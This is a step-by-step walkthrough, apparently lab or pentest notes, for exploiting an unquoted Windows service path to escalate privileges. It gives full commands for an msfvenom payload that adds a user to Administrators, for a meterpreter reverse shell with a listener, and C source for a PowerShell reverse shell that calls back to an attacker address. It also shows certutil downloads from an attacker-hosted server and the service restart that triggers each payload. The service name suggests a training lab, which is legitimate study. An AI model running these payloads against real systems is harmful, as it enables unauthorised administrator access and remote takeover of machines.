### **Exploiting insecure service with Metasploit**

1.  Create a binary to add a user to the Administrators group with `msfvenom`:  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > common.exe`  
    
    

2.  Host the binary using Python HTTP server and transfer it with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/common.exe common.exe`

    

3.  Move the binary into the vulnerable path:  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`

    

4.  Run the service to trigger the exploit:  
    `net start unquotedsvc`  
    
    

    **Note:** If `SeShutdownPrivilege` is enabled, you can reboot to restart the service automatically:  
    `shutdown /r /t 0`

### **Generating reverse shell with msfvenom**

1.  Create a reverse shell binary with `msfvenom`:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o unquotedpathservice.exe`  
    
    
    
2.  Host the binary using Python HTTP server and transfer it with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/unquotedpathservice.exe unquotedpathservice.exe`  
    
    
    
3.  Copy the reverse shell to the vulnerable path and rename it to match the first valid segment of the unquoted path:  
    `copy C:\Temp\unquotedpathservice.exe "C:\Program Files\Unquoted Path Service\Common.exe"`  
    
    
    
4.  Start a listener on the attacker machine:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    

    **Note:** Alternatively, start a Netcat listener:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
5.  Start the service on the target to execute the exploit:  
    `net start unquotedsvc`  
    
    

    **Note:** If `SeShutdownPrivilege` is enabled, reboot to restart the service automatically:  
    `shutdown /r /t 0`

### **Creating a custom exploit**

1.  Create a C file (`exploit.c`) on your attacker machine with the following code:  

    ```c
    #include <windows.h>
    #include <stdio.h>
    
    int main(){ 
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('[IP-ADDRESS]',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0; 
    }
    ```
    
    
    
2.  Compile the exploit using `mingw-w64`:  
    `x86_64-w64-mingw32-gcc exploit.c -o common.exe`  
    
    

    **Note:** If `mingw-w64` is not installed:  
    `apt install mingw-w64`
    
3.  Host the binary using Python HTTP server and transfer it with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/common.exe common.exe`  
    
    
    
4.  Move the binary to the vulnerable path:  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`  
    
    
    
5.  Start a listener and execute the service:  
    ```
    sudo rlwrap -cAr nc -lvnp 1337
    net start unquotedsvc
    ```  
    
    
    
    **Note:** If `SeShutdownPrivilege` is enabled, reboot to restart the service automatically:  
    `shutdown /r /t 0 /f`